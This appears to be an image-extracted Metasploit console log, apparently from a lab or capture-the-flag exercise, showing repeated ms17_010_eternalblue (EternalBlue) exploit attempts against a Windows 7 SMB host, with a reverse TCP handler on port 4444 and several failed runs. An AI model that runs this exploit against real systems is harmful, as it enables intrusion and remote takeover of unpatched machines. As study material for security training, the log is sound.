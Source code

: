 ```bash
[+] 10.201.35.94:445 - Sending SMBv2 buffers
[+] 10.201.35.94:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.201.35.94:445 - Sending final SMBv2 buffers.
[*] 10.201.35.94:445 - Sending last fragment of exploit packet!
[*] 10.201.35.94:445 - Receiving response from exploit packet
[+] 10.201.35.94:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.201.35.94:445 - Sending egg to corrupted connection.
[*] 10.201.35.94:445 - Triggering free of corrupted buffer.
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Exploit completed, but no session was created.
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> exploit
[-] Handler failed to bind to 10.48.156.99:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] 10.201.35.94:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.201.35.94:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.201.35.94:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.201.35.94:445 - The target is vulnerable.
[*] 10.201.35.94:445 - Connecting to target for exploitation.
[+] 10.201.35.94:445 - Connection established for exploitation.
[+] 10.201.35.94:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.201.35.94:445 - CORE raw buffer dump (42 bytes)
[*] 10.201.35.94:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.201.35.94:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.201.35.94:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.201.35.94:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.201.35.94:445 - Trying exploit with 12 Groom Allocations.
[*] 10.201.35.94:445 - Sending all but last fragment of exploit packet
[*] 10.201.35.94:445 - Starting non-paged pool grooming
[+] 10.201.35.94:445 - Sending SMBv2 buffers
[+] 10.201.35.94:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.201.35.94:445 - Sending final SMBv2 buffers.
[*] 10.201.35.94:445 - Sending last fragment of exploit packet!
[*] 10.201.35.94:445 - Receiving response from exploit packet
[+] 10.201.35.94:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.201.35.94:445 - Sending egg to corrupted connection.
[*] 10.201.35.94:445 - Triggering free of corrupted buffer.
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.35.94:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.201.35.94:445 - Connecting to target for exploitation.
[+] 10.201.35.94:445 - Connection established for exploitation.
[+] 10.201.35.94:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.201.35.94:445 - CORE raw buffer dump (42 bytes)
[*] 10.201.35.94:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.201.35.94:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.201.35.94:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.201.35.94:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.201.35.94:445 - Trying exploit with 17 Groom Allocations.
[*] 10.201.35.94:445 - Sending all but last fragment of exploit packet
[*] 10.201.35.94:445 - Starting non-paged pool grooming
[+] 10.201.35.94:445 - Sending SMBv2 buffers
[+] 10.201.35.94:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.201.35.94:445 - Sending final SMBv2 buffers.
[*] 10.201.35.94:445 - Sending last fragment of exploit packet!
```